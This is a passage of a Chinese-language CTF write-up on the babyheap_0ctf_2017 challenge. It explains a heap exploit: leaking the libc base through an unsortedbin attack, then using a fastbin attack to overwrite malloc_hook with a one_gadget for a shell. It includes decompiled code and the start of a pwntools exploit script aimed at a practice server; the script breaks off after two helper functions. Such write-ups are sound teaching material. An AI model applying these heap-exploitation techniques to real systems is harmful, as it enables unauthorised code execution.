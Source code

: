 `Dump`函数打印指定index的内容，可以用于泄漏main_arena地址，进一步泄漏libc基址

```c
int __fastcall Dump(__int64 a1)
{
  int result; // eax
  int v2; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = sub_138C();
  v2 = result;
  if ( (unsigned int)result <= 0xF )
  {
    result = *(_DWORD *)(24LL * result + a1);
    if ( result == 1 )
    {
      puts("Content: ");
      sub_130F(*(_QWORD *)(24LL * v2 + a1 + 16), *(_QWORD *)(24LL * v2 + a1 + 8));
      return puts(byte_14F1);
    }
  }
  return result;
}
```

因此答题思路为unsortedbin attack泄漏libc基址，fastbin attack劫持malloc_hook，使用one_gadget getshell

### Step1: 泄漏Libc基址

注：当small chunk被释放时，它的fd，bk指向同一个指针即top chunk地址，这个地址保存在main_arena的0x58偏移处，而main_arena在libc的data段中，是全局静态变量，偏移也是固定的，根据这些可以计算出libc的基址。因此只需要当small chunk释放后，还可以打印出其值。

首先申请一些小堆块，然后free掉id 1,2，利用堆溢出漏洞，将chunk2 fd指针修改为chunk4地址，相当于chunk4已经free并且为fastbin，然后要malloc回chunk4,不过由于有大小检查，需要修改chunk4的大小，通过修改chunk3来实现。这样可以实现将small chunk放入fastbin中的效果。注，此时有两个指针指向同一个chunk4，此时将chunk4大小修改回原来值，将正常的chunk4 free掉，就可以令其fd,bk指针指向top_chunk，同时新申请的也指向了chunk4,可以用于查看fd,bk值。由此可以计算出libc值

### Step2: 修改malloc_hook为one_gadget

使用fastbin attack构造fake chunk修改malloc_hook指针地址即可

exp如下：

```python
from pwn import *

context(arch='amd64', log_level='debug')

# p = process('./babyheap_0ctf_2017')
p = remote('node5.buuoj.cn', 25147)
"""
struct {
    1, (8) # 表示是否allocate
    size: , (8)
    content pointer: , (8)
}
"""

def allocate(size):
    p.sendlineafter(b'Command: ', b'1')
    p.sendlineafter(b'Size: ', str(size))

def fill(index, size, content):
    p.sendlineafter(b'Command: ', b'2')
    p.sendlineafter(b'Index: ', index)
    p.sendlineafter(b'Size: ', str(size))
    p.sendlineafter(b'Content: ', content)

```